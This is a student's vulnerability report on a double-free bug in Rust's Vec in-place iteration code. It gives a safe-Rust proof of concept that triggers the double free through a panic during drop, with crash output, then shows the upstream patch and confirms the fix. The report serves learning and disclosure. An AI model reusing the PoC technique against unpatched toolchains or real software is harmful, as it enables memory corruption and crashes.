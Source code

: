 # Report

2020170365 gayeong park

## Location of the Vulnerability

The vulnerability was located in the Rust standard library, specifically within the `alloc` crate. The affected code is found in two files:

1. **File:** `rust/library/alloc/src/vec/source_iter_marker.rs`

   - **Lines:** 71 to 72

   ```rust
   // drop any remaining values at the tail of the source
   src.drop_remaining();
   ```

2. **File:** `rust/library/alloc/src/vec/into_iter.rs`
   - **Lines**: 88 to 93
   ```rust
   pub(super) fn drop_remaining(&mut self) {
    unsafe {
        ptr::drop_in_place(self.as_mut_slice());
    }
    self.ptr = self.end;
   }
   ```

## Triggering the Vulnerability

The vulnerability is triggered when `drop_remaining()` is called. This function attempts to drop the remaining elements in a vector by calling `ptr::drop_in_place` on a slice derived from a mutable reference. Here’s a detailed explanation:

1. Function Call: `drop_remaining()` is invoked.
2. Unsafe Operation: Inside `drop_remaining()`, the `ptr::drop_in_place` function is called on the slice obtained from `self.as_mut_slice()`.
3. Pointer Update: After dropping the elements, the pointer self.ptr is set to self.end.

This sequence can cause elements to be dropped twice in certain circumstances. Specifically, if a panic occurs during the drop operation (as in the provided proof of concept), Rust’s panic unwinding mechanism may attempt to drop the elements again, leading to a double free error. This is dangerous because it can cause undefined behavior, such as memory corruption or crashes.

## Proof of Concept (PoC)

The provided PoC demonstrates how this vulnerability can be exploited:

```rust
#![forbid(unsafe_code)]

use std::iter::FromIterator;

#[derive(Debug)]
enum MyEnum {
    DroppedTwice(Box<i32>),
    PanicOnDrop,
}

impl Drop for MyEnum {
    fn drop(&mut self) {
        match self {
            MyEnum::DroppedTwice(_) => println!("Dropping!"),
            MyEnum::PanicOnDrop => {
                if !std::thread::panicking() {
                    panic!();
                }
            }
        }
    }
}

fn main() {
    let v = vec![MyEnum::DroppedTwice(Box::new(123)), MyEnum::PanicOnDrop];
    Vec::from_iter(v.into_iter().take(0));
}

```

### Output

```sh
Dropping!
thread 'main' panicked at 'explicit panic', src/main.rs:17:21
note: run with `RUST_BACKTRACE=1` environment variable to display a backtrace
Dropping!
free(): double free detected in tcache 2
```

n the PoC, the vector v contains elements that trigger a panic during the drop operation. The PanicOnDrop variant causes a panic unless the thread is already panicking. This leads to drop_remaining() being called again due to panic unwinding, causing the DroppedTwice variant to be dropped twice, as shown by the "Dropping!" messages and the resulting double free error.

## Patch for the Vulnerability

The vulnerability was patched by modifying the way elements are dropped to prevent multiple drops under panic conditions. The corrected approach consolidates the functionality of forgetting the allocation and dropping the remaining elements into a single operation. Here’s how it was patched:

````rust
/// Drops remaining elements and relinquishes the backing allocation.
///
/// This is roughly equivalent to the following, but more efficient
///
/// ```
/// # let mut into_iter = Vec::<u8>::with_capacity(10).into_iter();
/// (&mut into_iter).for_each(core::mem::drop);
/// unsafe { core::ptr::write(&mut into_iter, Vec::new().into_iter()); }
/// ```
pub(super) fn forget_allocation_drop_remaining(&mut self) {
    let remaining = self.as_raw_mut_slice();

    // overwrite the individual fields instead of creating a new
    // struct and then overwriting &mut self.
    // this creates less assembly
    self.cap = 0;
    self.buf = unsafe { NonNull::new_unchecked(RawVec::NEW.ptr()) };
    self.ptr = self.buf.as_ptr();
    self.end = self.buf.as_ptr();

    unsafe {
        ptr::drop_in_place(remaining);
    }
}
````

In this patch, the `forget_allocation` and `drop_remaining` functions are combined into one function, `forget_allocation_drop_remaining()`. This new function ensures that the backing allocation is relinquished by resetting the vector's internal state (capacity and pointers) before dropping the remaining elements. By overwriting the internal state first, it prevents the possibility of the elements being dropped multiple times under panic conditions.

## Confirmation that the vulnerablilty is no longer triggered

Running the same PoC with the patched version did not result in a double free error. The "Dropping!" message appeared only once for each drop operation, and the program handled the panic without crashing or causing undefined behavior :

```sh
thread 'main' panicked at src/main.rs:17:21:
explicit panic
note: run with `RUST_BACKTRACE=1` environment variable to display a backtrace
Standard Output
Dropping!
```

### Reference

Most of the work was highly referenced and learned from
[issue#83618](https://github.com/rust-lang/rust/issues/83618) and [patch commit](https://github.com/rust-lang/rust/commit/542f441d445026d0996eebee9ddddee98f5dc3e5).
